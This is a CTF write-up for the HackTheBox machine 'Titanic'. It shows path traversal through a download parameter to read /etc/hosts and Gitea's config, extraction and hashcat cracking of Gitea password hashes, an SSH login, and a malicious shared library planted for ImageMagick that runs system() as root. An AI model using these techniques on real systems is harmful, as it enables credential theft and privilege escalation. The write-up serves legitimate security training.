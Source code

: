 ```yaml
---
title: HackTheBox | Titanic
published: 2025-02-21
description: "In this writeup, I explain how I gain ownership of Titanic on HackTheBox"
image: "./img/img.jpg"
tags: [CTF, HTB, write-up]
category: 'CTF'
draft: false
---
```



# Nmap Scan

```bash
sudo nmap -sC -sV -T4 10.10.11.55
```
![nmap](image.png)

While exploring the website, I found a Book Your Trip button that triggers a form submission.


![button](image-1.png)

after filing the form and intercept the request with burpsuite, following the redirection

i find /download?ticket= path i tried path traversal and it worked

there is user names developer we can get the user flag from `/home/developer/user.txt`

![pathtraversal](image-2.png)

we continue to see if we can access `/etc/hosts` i found subdomain `dev`

![dev](image-3.png)

add it to my hosts

the app is using gitea so searching for its configuration i found this path

```bash
curl -X GET "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/conf/app.ini"
```

![cong](image-4.png)

we can see the db is located at `/data/gitea/gitea.db`

after downloading the db we can access it with 
```bash
sqlite3 _home_developer_gitea_data_gitea_gitea.db
```

![db](image-5.png)

from `htb-compiled` writeup i found how to crack the hash

```bash
sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes

hashcat gitea.hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --user
```

i found the developer password

![pass](image-6.png)

time for ssh

```bash
ssh developer@10.10.11.55
```

looking around i found this :
![scripts](image-7.png)

the script is runing as root, and whit the version i took look at google i found this PoC

[Arbitrary Code Execution in `AppImage` version `ImageMagick`](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)

now we can try get the flag :

```bash
gcc -x c -shared -fPIC -o /opt/app/static/assets/images/libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/root44_flag.txt");
    exit(0);
}
EOF

touch test.jpg
```

we can find the flag at `/tmp`

![win](image-8.png)
